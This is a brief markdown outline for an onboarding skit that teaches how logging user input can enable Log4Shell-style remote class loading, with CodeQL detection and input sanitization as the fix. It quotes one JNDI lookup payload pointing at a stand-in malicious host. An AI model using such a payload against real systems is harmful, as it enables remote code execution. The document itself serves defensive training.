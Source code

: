 # 🎬 Skit: The Curious Logger

## 🎭 Scene Setup
Engineer logs user input using `logger.info(userInput)`.

## ⚔️ Conflict
User input contains `${jndi:ldap://malicious.com/a}`, triggering remote class loading.

## 🛠️ Resolution
- CodeQL query flags unsafe logging
- Fix includes input sanitization
- Artifact: teachback.md + SOP + skit script

## 🧠 Teaching Moment
This skit dramatizes how a simple log statement can become an exploit vector. It’s used in onboarding to teach exploit-aware logging practices.
